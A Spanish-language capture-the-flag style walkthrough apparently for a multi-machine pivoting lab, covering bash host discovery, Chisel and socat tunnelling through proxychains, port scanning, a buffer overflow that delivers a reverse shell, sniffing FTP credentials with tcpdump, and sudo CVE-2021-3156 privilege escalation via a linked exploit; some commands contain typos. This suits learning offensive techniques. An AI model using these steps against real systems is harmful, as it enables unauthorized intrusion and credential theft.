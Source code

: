 [[2. Nagini]]
# Fase de reconocimiento
## Buscamos hosts en la red
Buscaremos host en red con un script en bash
```
#!\dev\null

for i in $(seq 1 254); do
		timeout 1 bash -c "ping -c 10.10.0.$i" &>/dev/null && echo "[+] Host 10.0.0.$i - ACTIVE" &
		
done; wait
```
(Si no acepta traza icmp⬇ )
```
#!\dev\null

for i in $(seq 1 254); do
		for port in 21 22 80 443 445 8080; do
				timeout 1 bash -c "echo '' > /dev/tcp/10.10.0.$i/$port" &>/dev/null && echo "[+] Host 10.0.0.$i - ACTIVE - PORT $port" &
		done
		
done; wait
```

> [!NOTE]  
> Esto no se suele hacer, se suele usar mas Chisel qué es más fácil
## Pivoting con Chisel
Chisel creará un tunnel entre el chisel servidor y el/los cliente/s trayendo puertos.
Para poder utilizar la maquina atacante todo el rato.

1. Copiamos chisel en la maquina Nagini
```
proxychains scp chisel root@<ip2>:/tmp/chisel
```
2. Nos conectamos al servidor
```
./chisel client <ip1>:2322 R:8888:socks
```
3. Con socat en Aragog lo redirigimos al servidor
```
./socat TCP-LISTEN:2322, fork TCP:<ipa>:1234
```
Esto abrirá un túnel por la 8888 con la red del cliente
4. Con el proxy "proxychains" configuramos el archivo "proxychains.conf"
```
# strict_chain
Deshasteamos dynamic_chain
add abajo:
	socks5 127.0.0.1 8888
	socks5 127.0.0.1 1080
```
Ahora para ejeuctar comandos en 'ip2' con proxycahins -comando-
## Buscar puertos
Buscaremos puertos con la ayuda de xargs para agilizar el escaneo
```
seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5 -v -n <ip3> 2>&1 | grep "tcp open"
```
![[Pasted image 20240422182642.png]]
## FoxyProxy
Para poder ver la web añadimos un proxy en el navegador con FoxyProxy con el puerto 8888
![[Pasted image 20240422180531.png]]
## FTP
Nos conectamos al FTP
```
proxychains ftp <ip3>
```
Name: anonymous
password:
```
ftp> passive
ftp> dir
ftp> binary
ftp> get <archivo>
```

# Fase de ataque
## Buffer Overflow
El archivo conseguido por FTP es un ejecutable, este mismo ejecutable esta abierto en la maquina por el puerto 9898. 
Este ejecutable pude ser atacado por Buffer Overflow.

(No explicado por mi) https://taishi8117.github.io/2016/07/24/bof-metasploit/
![[Pasted image 20240422201341.png]]

Utilizar Chisel en Naigini y Aragog para recibir la shell
```
proxychains pyhton3 exploit.py
```
[-] ==pwned!==

Ajustar terminal
# Privilege Escalation
## Docker
```
sudo /bin/sh
```

Hay una nota que nos sugiere revisar el trafico FTP

```
tcpdump -i th0 port ftp or ftp-data
```
Revisando nos da un usuario y contraseña de Fawkes
## Fawkes

```
proxychains ssh <usr>@<ip3>
```
Numeramos archivos con permisos
```
find \-perm -4000 2>/dev/null
```
Encontramos un sudo version 1.8.27 con un CVE
https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py
Copiamos el script y cambiamos la ruta de sudo
```
python3 script.py
```
[+] ==pwned!==


# Resumen Técnicas 
EXTRA: Running chisel as a client from the Nagini machine to reach the Fawkes machine 
EXTRA: Creating a new socks5 connection through a new port 
EXTRA: FTP connection in passive mode when going through proxychains 
Binary Enumeration - Buffer Overflow (x32) Stack Based 
EXTRA: Execution of the Buffer Overflow sending the reverse shell through 2 machines until it reaches us 
Abusing Sudoers Privilege in a container 
Intercepting the traffic with tcpdump - Discovering credentials in FTP authentication 
SSH Credential Reuse - Escaping the Container 
Abusing sudo 1.8.27 version (CVE-2021-3156) (Privilege Escalation)
